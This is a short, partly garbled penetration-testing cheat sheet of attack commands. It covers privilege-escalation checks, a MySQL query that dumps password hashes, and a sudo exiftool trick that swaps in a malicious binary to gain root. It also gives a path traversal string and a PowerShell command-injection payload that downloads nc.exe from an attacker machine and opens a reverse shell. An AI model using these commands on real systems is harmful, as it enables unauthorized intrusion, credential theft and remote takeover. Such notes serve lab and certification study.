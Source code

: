 * Check these for privesc! :
$ sudo -l
$ uname -a
$ linpeas

* if you founf more domain or ip addresses, add to dns -> /etc/hosts

* Don't forget to:
$ hostname && whoami && cat /root/proof.txt && ip aRETAC AD:

* maybe you found bug of sql
query: select user, authentication_string from user;

[gtfobins](https://gtfobins.github.io/) -> for binary exploit
sample: 
create malicious binary(app) (#!/bin/bash enter bash) then:
chmod +x binary
sudo /usr/local/bin/exiftool -filename=/usr/bin/app (binary path)
sudo /usr/bin/app

* path traversal vuln:
../../../../../../../../...................

* command injection vuln:
powershell -c iwr http://ipkali/nc.exe -OutFile \windows\temp\nc.exe;windows\temp\nc.exe -nv ipkali 443 -e cmd

* generate reverse shell
https://github.com/pentestmonkey/php-reverse-shell

